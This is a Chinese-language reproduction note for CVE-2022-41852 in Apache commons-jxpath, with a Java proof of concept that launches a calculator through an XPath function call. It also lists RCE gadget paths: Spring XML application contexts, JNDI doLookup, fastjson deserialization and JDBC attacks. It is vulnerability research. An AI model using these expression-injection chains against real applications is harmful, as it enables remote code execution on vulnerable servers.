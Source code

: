# CVE-2022-41852

## 影响版本

commons-jxpath:commons-jxpath <= 1.3

## 复现思考

看漏洞描述可以看出由于xpath表达式的问题造成的漏洞

![](img/1.png)

这一点其实来源官方的一个feature

https://commons.apache.org/proper/commons-jxpath/users-guide.html

![](img/2.png)

可以看到这里的描述似乎是可以执行一些任意代码具体我们可以跟进看看

简单写个demo



Test.java

```java
import org.apache.commons.jxpath.JXPathContext;

public class Test {
    public static void main(String[] args) {
        JXPathContext context = JXPathContext.newContext(null);
        context.getValue("com.example.springdemo.calc.calc()");
    }
}
```

Calc.java

```java
package com.example.springdemo;

public class calc {
    public static void calc(){
        try {
            Runtime.getRuntime().exec("open -na Calculator");
        }catch (Exception e ){

        }
    }
}
```

可以看到这部分的处理在org.apache.commons.jxpath.ri.compiler.ExtensionFunction当中这里也不浪费太多篇幅，解析表达式的时候会调用到org.apache.commons.jxpath.ri.compiler.ExtensionFunction#computeValue

里面通过Function function = context.getRootContext().getFunction(this.functionName, parameters);去获取一些方法，方法限制有两个，要么有构造函数，要么是一些静态方法![](img/3.png)

## 对于实例化我们能做什么

spring当中有两个类构造函数就能加载远程配置可以rce，

- org.springframework.context.support.ClassPathXmlApplicationContext
- org.springframework.context.support.FileSystemXmlApplicationContext

## 对于静态方法我们能做什么

jndi当中有静态方法，javax.naming.InitialContext.doLookup

一些常见库比如fastjson出发json反序列化

当然还有jdbc攻击也可以帮助我们撕开一条漏洞的口子

当然肯定还有其他的攻击手法毕竟jre当中有很多类这里只是举一些例子而已，对于学习足够了
